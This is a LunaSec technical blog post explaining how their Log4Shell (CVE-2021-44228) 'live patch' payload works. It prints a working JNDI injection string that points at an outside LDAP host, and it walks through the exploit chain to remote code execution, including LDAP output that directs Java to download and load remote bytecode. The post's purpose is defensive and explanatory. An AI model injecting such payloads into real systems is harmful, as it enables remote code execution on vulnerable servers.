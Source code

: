 ```yaml
---
title: "Understanding Log4Shell via Exploitation and Live Patching (CVE-2021-44228 + CVE-2021-45046)"
description: Let's dig into how it's possible to send a string to your server and have it patch a vulnerability.
slug: log4shell-live-patch-technical
date: 2021-12-16
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
tags: [zero-day, security, data-security, guides, log4shell]
authors: [free, chris]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-logo.png)

## Technical Analysis: Understanding the Live Patch

The other day we published a Log4Shell payload that, when used to exploit a server, would patch the server against
future exploitation from Log4Shell. You can read through our post explaining _why_ we built it
[here](https://www.lunasec.io/docs/blog/log4shell-live-patch/).

It looks like this:
```
${jndi:ldap://patch.log4shell.com:1389/a}
```

In this post, we're going to dissect what's going on with this live patch to explain how it works. If you're curious to
dig into this more, you can view the code on
[GitHub](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell) too.

<!--truncate-->

## The Payload Schema

A simple Log4Shell attack follows a specific structure. We're going to break down our patch payload (above) into its
composite parts:


- `${`: The open tag for the log4j "Message Lookup".
- `jndi:`: Specifying to log4j to use the "JNDI Manager" to resolve the message.
- `ldap://`: Tells the JNDI request to be resolved using the LDAP protocol.
- `patch.log4shell.com`: The host to resolve via DNS to send the payload towards.
- `:1389`: The port to send the request to.
- `/a`: The path to send to the server with the request.
- `}`: The closing tag for the original log4j "Message Lookup".

_Note: There are more advanced payloads, but they all distill down to something similar to this._

## High-Level Exploit Steps

To perform the exploit, the following steps are completed in this sequence:

1. A log is passed to log4j via `log.info("${jndi:ldap://patch.log4shell.com:1389/a}")`.
2. A "Message Lookup" is parsed by log4j to be interpreted.
3. The JNDI Manager is invoked and passed the LDAP URI.
4. The LDAP Server is queried via the URI.
5. The response is downloaded and passed to the JNDI Manager.
6. The JNDI Manager loads the response data as Java bytecode into the Java process.
7. When loading the Java code, the `getObjectInstance` method is called since the loaded class is an `ObjectFactory`
   (alternatively, the payload code can be wrapped in a static context with `static {}` which will be triggered upon loading the class).
8. At this point, an attacker can perform whatever logic they'd like because they have full code execution.

Here is a diagram with roughly the same information, but explained visually (with mitigation info).

<a href="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" alt="log4shell 0day diagram" />
</a>

## The LDAP Lookup

Once log4j has parsed the message, the LDAP request is the first leg of the exploit that an attacker must implement in
order to attain RCE.

We're going to use the CLI tool `ldapsearch` to allow us to emulate the request being made from within log4j to the
LDAP server. With this tool, we can query the live patch server for its entries:

```shell
~ ldapsearch -x -H ldap://patch.log4shell.com:1389
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:: Y249bG9nNHNoZWxsLWhvdHBhdGNoLCA=
cn: log4shell-hotpatch
javaClassName: attempting to patch Log4Shell vulnerability with payload hosted
  on: http://patch.log4shell.com:80/Log4ShellHotpatch.class
javaCodeBase: http://patch.log4shell.com:80/
objectclass: javaNamingReference
javaFactory: Log4ShellHotpatch

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

The most important parts of this response data are the `javaCodeBase` and the `javaFactory` fields. These tell the JNDI
function where to locate the code (`http://patch.log4shell.com:80/`), and what remote class to resolve
(`Log4ShellHotpatch`). In Log4j versions `>= 2.15.0`, `javaCodeBase` will only be resolved if it is [`localhost` or a
whitelisted host](https://github.com/apache/logging-log4j2/pull/608), meaning this payload will not execute.

### Other Response Values

For the most part, the other response values exist only to pass the LDAP schema validation step, and aren't crucial for
the exploit to succeed.

For example, the `javaClassName` contains a value which will be logged out when running the live patch on a system. This
log message will indicate that the second stage Java class file is being downloaded:
`http://patch.log4shell.com:80/Log4ShellHotpatch.class`.

We have only added this for debugging to understand if this payload was ever actually executed, but it could be
substituted with any string value.

## The JNDI Request

With the information now available to tell JNDI where to load the exploit code from, the next request in the exploit
chain is fired off. The response from this request contains Java bytecode which enables the actual RCE
functionality of this vulnerability.

Java bytecode is easily reversible, and we are not making any attempt to [obfuscate the payload](https://owasp.org/www-community/controls/Bytecode_obfuscation).
Using a tool such as [jdec.app](https://jdec.app/), you can simply download the payload and then reverse engineer it to understand
exactly what code will be run when the exploit is triggered.

![Log4Shell live patch payload decompiled](https://www.lunasec.io/docs/img/log4shell-live-patch-decompilation.png)

You can alternatively just browse the payload's source on (
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/lunatrace/patches/log4shell-livepatch/src/main/java/Log4ShellHotpatch.java)
):

```ts
/* ... imports redacted for brevity ... */

public class Log4ShellHotpatch implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        log("Attempting to apply Log4Shell hotpatch to service...");
        try {
            // reconfiguring log4j
            boolean success = removeJndiFromLog4jContextLookup();
            if (success) {
                return "Successfully hotpatched Log4Shell vulnerability.";
            }
        } catch (Exception e) {
            error(e.toString());
            e.printStackTrace();
        }
        return "Unable to hotpatch Log4Shell vulnerability.";
    }

    static boolean removeJndiFromLog4jContextLookup() {
      /* ... trimmed code, see GitHub for full example ... */
    }

    /* ... other methods trimmed too ... */
}
```

## The Java Exploit Code

Upon loading the second stage Java class file into the program, the class `Log4ShellHotpatch` will start performing the
in memory patch when the `getObjectInstance()` function is invoked during object creation by JNDI.

The patch consists of the following steps:

1. Accesses the current thread's `ClassLoader` and locates the classes for:
  - `org.apache.logging.log4j.core.config.Configurator`.
  - `org.apache.logging.log4j.core.impl.Log4jContextFactory`.
3. Calls `ContextSelector ctxSelector = Log4jContextFactory.getSelector(Configurator.getFactory());`.
4. Grabs all `LoggerContext` objects with `ctxSelector.getLoggerContexts()`.
5. Goes through each `LoggerContext` and removes the `jndi` entry in each object's lookup map.

The last step of the patch is what prevents further resolution of `jndi` values during log4j logging calls.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

If this post helped you, please share it with others to help them too.


<ContactForm/>

## More Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**
- **[Explanation of the 2nd Log4j CVE](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-15-log4shell-live-patch.mdx).
:::

